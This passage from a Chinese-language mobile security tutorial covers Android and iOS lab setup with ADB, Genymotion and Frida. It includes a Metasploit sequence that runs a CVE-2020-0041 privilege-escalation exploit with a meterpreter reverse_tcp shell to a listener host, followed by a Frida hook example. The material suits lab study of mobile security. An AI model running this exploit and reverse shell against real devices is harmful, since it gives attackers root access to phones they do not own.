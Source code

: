 ### 5.1 Android实验环境

**所需工具：**
- **Android Studio**：用于开发和调试Android应用程序。
- **Genymotion**：用于运行Android虚拟机。
- **ADB**：用于与设备交互。

**步骤：**
1. 安装Android Studio和Genymotion。
2. 创建一个Android虚拟机。
3. 使用ADB连接虚拟机。

**示例命令：**
```bash
adb connect 192.168.56.101:5555
```

### 5.2 iOS实验环境

**所需工具：**
- **Xcode**：用于开发和调试iOS应用程序。
- **iOS模拟器**：用于运行iOS应用程序。
- **Frida**：用于动态分析和注入代码。

**步骤：**
1. 安装Xcode和Frida。
2. 创建一个iOS模拟器。
3. 使用Frida连接模拟器。

**示例命令：**
```bash
frida-ps -U
```

## 6. 实际命令、代码和工具使用说明

### 6.1 Metasploit

**使用Metasploit进行权限提升：**
```bash
msfconsole
use exploit/android/local/cve_2020_0041
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

### 6.2 Frida

**使用Frida进行动态分析：**
```javascript
Java.perform(function() {
    var File = Java.use("java.io.File");
    File.createNewFile.implementation = function() {
        // 修改文件操作
        return this.createNewFile();
    };
});
```
